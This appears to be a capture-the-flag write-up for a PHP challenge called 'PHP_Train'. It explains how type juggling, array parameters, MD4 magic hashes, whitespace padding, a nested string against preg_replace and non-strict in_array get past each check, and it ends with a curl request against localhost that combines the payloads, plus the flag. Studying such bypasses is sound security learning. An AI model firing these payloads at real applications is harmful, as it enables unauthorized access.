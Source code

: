 ## PHP_Train Writeup
---

```php
if(isset($_GET["param1"])) {
    if(!strcmp($_GET["param1"], CONSTANT1)) {
        echo FLAG1;
    }
}
```
We dont know value of `CONSTANT1`, strcmp must return 0 to make the condition true. Passing Array instead of string, NULL is returned. Due to type juggling, NULL is implicitly converted to 0, and the statement is bypassed.

```php
if(isset($_GET["param2"]) && isset($_GET["param3"])) {
    $str2 = $_GET["param2"];
    $str3 = $_GET["param3"];
    if(($str2 !== $str3) && (sha1($str2) === sha1($str3))) {
        echo FLAG2;
    }
}
```
It is not possible for two non equal entities to have the same SHA1 hash. Note that SHA1 check will only be executed if the type of the variables is string, otherwise it simply ignores the condition. Parameters can be send as Array to bypass the statements. Make sure value of both the parameters are different.

```php
if(isset($_GET["param4"])) {
    $str4 = $_GET["param4"];
    $str4=trim($str4);
    if($str4 == '1.2e3' && $str4 !== '1.2e3') {
        echo FLAG3;
    }
}
```
Due to type juggling, `'1.2e3'` is interpreted as scientic notation of the number `1200`. Passing `1200` or any other variations of the same scientific notation will bypass the statements.

```php
if(isset($_GET["param5"])) {
    $str5 = $_GET["param5"];
    if($str5 == 89 && $str5 !== '89' && $str5 !== 89 && strlen(trim($str5)) == 2) {
        echo FLAG4;
    }
}
```
String Length is checked after passing through trim function. Adding whitespaces to the input parameter will bypass the statements. Passing `89 ` will give us FLAG4.

```php
if(isset($_GET["param6"])) {
    $str6 = $_GET["param6"];
    if(hash('md4', $str6) == 0) {
        echo FLAG5;
    }
}
```
We need to find a string with MD4 hash equal to 0. Strings beginning with `0e` is interpreted as 0, we can get these hashes from writing script, or magic hash list from internet.

```php
if(isset($_GET["param7"])) {
    $str7 = $_GET["param7"];
    $var1 = 'helloworld';
    $var2 = preg_replace("/$var1/", '', $str7);
    if($var1 === $var2) {
        echo FLAG6;
    }
}
```
`preg_replace` function checks if `$var1` is present in `$str7`, if found then it is replaced with `''`. Providing parameter as `hellohelloworldworld`, helloworld is replaced with '' and $var2 takes the value helloworld, giving us the flag;

```php
$comp = range(1, 25);
if(isset($_GET["param8"])) {
    $str8 = $_GET["param8"];
    if(in_array($str8, $comp)) {
        if(preg_match("/\.env/", $str8)) {
            echo FLAG7;
        }
    }
}
```
Here `in_array` function is type unsafe here, because third parameter of the function is not set to true. Hence the parameter is typecasted when comparing with the array. `preg_match` demands the string to have a .env extension. The statment can be bypassed by prepending a number in range 1 to 25, and having a .env match in the parameter.

Since communication to the server is only through GET requests, this can be done either with command line tools like curl, or python scripts, or can be in the browser itself.

```bash
curl http://localhost:4000/\?param1\[\]\=\&param2\[\]\=a\&param3\[\]\=b\&param4\=1200\&param5\=89%20\&param6\=20583002034\&param7\=hellohelloworldworld\&param8\=5.env
```
Flag for the challenge:
```
p_ctf{ech0_1f_7h3_7r41n_d035_n07_5t0p_1n_y0ur_5t4t10n_7h3n_1t5_n07_y0ur_7r41n}
```
